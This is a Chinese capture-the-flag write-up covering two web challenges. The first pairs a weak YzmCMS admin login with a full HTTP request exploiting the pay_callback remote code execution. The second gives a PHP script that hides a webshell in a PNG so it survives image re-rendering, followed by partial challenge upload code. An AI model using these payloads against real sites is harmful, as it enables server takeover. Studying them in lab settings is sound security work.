 ### 小小cms
- 后台弱口令登录 yzmcms/yzmcms    
- 搜索得知该 cms 存在 RCE 漏洞。    
- 利用漏洞 getshell。    
Payload：
```TEXT
POST /pay/index/pay_callback.html HTTP/1.1
Host: 210.44.150.15:43568
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

out_trade_no[0]=eq&out_trade_no[1]=ls&out_trade_no[2]=system
```

### 拜师之旅·番外
- 图片上传题    
- 经过简单尝试，发现网站会对文件内容以及文件名的后缀进行检查，并且会对图片进行二次渲染，为了让图片中的木马不会被改变，就需要用到大佬的脚本。
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);

$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./ma.png');
?>
```
- 通过 GET、POST 传参来执行命令，而命令的执行结果则会被写入到图片中，因此我们需要将图片下载下来查看命令执行的结果。   
下面是扒到的题目源码：
```php
// check.php
<?php
header("Content-type: text/html;charset=utf-8");
error_reporting(0);

// 设置上传目录
define("UPLOAD_PATH", dirname(__FILE__) . "/upload/");
define("UPLOAD_URL_PATH", str_replace($_SERVER['DOCUMENT_ROOT'], "", UPLOAD_PATH));

if (!file_exists(UPLOAD_PATH)) {
    mkdir(UPLOAD_PATH, 0755);  // 创建上传目录
}

$is_upload = false;

```